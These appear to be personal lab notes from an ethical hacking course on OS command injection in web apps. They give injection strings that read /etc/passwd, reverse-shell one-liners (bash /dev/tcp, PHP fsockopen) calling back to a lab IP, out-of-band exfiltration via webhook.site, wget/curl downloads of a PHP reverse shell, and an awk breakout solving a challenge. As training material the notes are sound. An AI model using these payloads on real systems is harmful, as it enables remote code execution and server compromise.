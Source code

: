 # Web App - Command Injection

> - [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
> - [Command injection | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/command-injection)

➡️ **OS Command Injection**, or shell injection, occurs when a vulnerable application passes unvalidated user input to the system shell, allowing attackers to execute arbitrary OS commands on the server hosting the web app.

---

## Command Injection - Basics

```bash
| whoami #
& whoami& asd
; whoami; asd
# Result: www-data

; cat /etc/passwd; asd
& ls -lah& asd
# Check result in Source Code for better reading
```

![](.gitbook/assets/2025-02-26_00-02-01_913.png)

- Pop a shell - check [Reverse Shell Cheat Sheet - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

```bash
; which bash; asd
# Result: /bin/bash

; /bin/bash -i >& /dev/tcp/192.168.31.131/4444 0>&1; asd
# does NOT work

; which python; asd
; which python3; asd

; which php; asd
# Result: /usr/local/bin/php 

; php -r '$sock=fsockopen("192.168.31.131",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; asd
```

![](.gitbook/assets/2025-02-26_00-17-05_914.png)

---

## Command Injection - Blind/Out-of-band

```bash
https://tcm-sec.com # Website OK
https://tcm-sec.com/idontexist # Website not found

https://tcm-sec.com/; whoami; asd # Website OK
```

- Open [https://webhook.site/](https://webhook.site/)
  - **Out of band command injection** - captured from a different place

```bash
https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76?`whoami`

# Result
# https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76?www-data
```

```bash
# Test a wget
python3 -m http.server 8888

# Command injection string
https://tcm-sec.com \n wget 192.168.31.131:8888/test
# the request worked
```

- Upload a shell and trigger it

```bash
cd $HOME/tcm/peh/webapp
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php rev.php

# Update $ip and $port
nano rev.php
# 192.168.31.131, port 4444
python3 -m http.server 8888

# Command injection
https://tcm-sec.com \n wget 192.168.31.131:8888/rev.php
https://tcm-sec.com && curl http://192.168.31.131:8888/rev.php > $HOME/peh/labs/rev.php
# Those injections may not work, but this is the idea

# Start a listener and navigate to http://localhost/rev.php
# Got reverse shell
```

---

## Command Injection - Challenge

- The app executes this

```bash
# Executed with Registration = TEST, Position X = 123 and PositionY = 456
awk 'BEGIN {print sqrt(((-123)^2) + ((-456)^2))}'

# Try injection on position Y
456)^2))}';whoami;
456)^2))}';whoami;#
# Result: 472.298 www-data - Worked

# Pop a shell via a php payload

456)^2))}';php -r '$sock=fsockopen("192.168.31.131",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

# Reverse shell received
```

![Command injection](.gitbook/assets/2025-02-27_23-53-57_915.png)

---

